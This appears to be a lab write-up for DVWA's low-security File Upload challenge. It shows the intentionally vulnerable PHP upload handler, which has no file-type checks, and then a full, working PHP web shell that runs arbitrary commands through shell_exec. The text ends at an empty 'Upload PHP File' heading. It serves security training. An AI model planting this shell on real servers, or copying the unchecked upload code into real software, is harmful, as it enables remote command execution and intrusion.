

# File Upload

## Security Level - Low

### Source Code

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?> 
```

### PHP File
```php
<?php
if (!empty($_POST['cmd'])) {
    $cmd = shell_exec($_POST['cmd']);
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Web Shell</title>
    <style>
        * {
            -webkit-box-sizing: border-box;
            box-sizing: border-box;
        }

        body {
            font-family: sans-serif;
            color: rgba(0, 0, 0, .75);
        }

        main {
            margin: auto;
            max-width: 850px;
        }

        pre,
        input,
        button {
            padding: 10px;
            border-radius: 5px;
            background-color: #efefef;
        }

        label {
            display: block;
        }

        input {
            width: 100%;
            background-color: #efefef;
            border: 2px solid transparent;
        }

        input:focus {
            outline: none;
            background: transparent;
            border: 2px solid #e6e6e6;
        }

        button {
            border: none;
            cursor: pointer;
            margin-left: 5px;
        }

        button:hover {
            background-color: #e6e6e6;
        }

        .form-group {
            display: -webkit-box;
            display: -ms-flexbox;
            display: flex;
            padding: 15px 0;
        }
    </style>

</head>

<body>
    <main>
        <h1>Web Shell</h1>
        <h2>Execute a command</h2>

        <form method="post">
            <label for="cmd"><strong>Command</strong></label>
            <div class="form-group">
                <input type="text" name="cmd" id="cmd" value="<?= htmlspecialchars($_POST['cmd'], ENT_QUOTES, 'UTF-8') ?>"
                       onfocus="this.setSelectionRange(this.value.length, this.value.length);" autofocus required>
                <button type="submit">Execute</button>
            </div>
        </form>

        <?php if ($_SERVER['REQUEST_METHOD'] === 'POST'): ?>
            <h2>Output</h2>
            <?php if (isset($cmd)): ?>
                <pre><?= htmlspecialchars($cmd, ENT_QUOTES, 'UTF-8') ?></pre>
            <?php else: ?>
                <pre><small>No result.</small></pre>
            <?php endif; ?>
        <?php endif; ?>
    </main>
</body>
</html>
```

### Upload PHP File



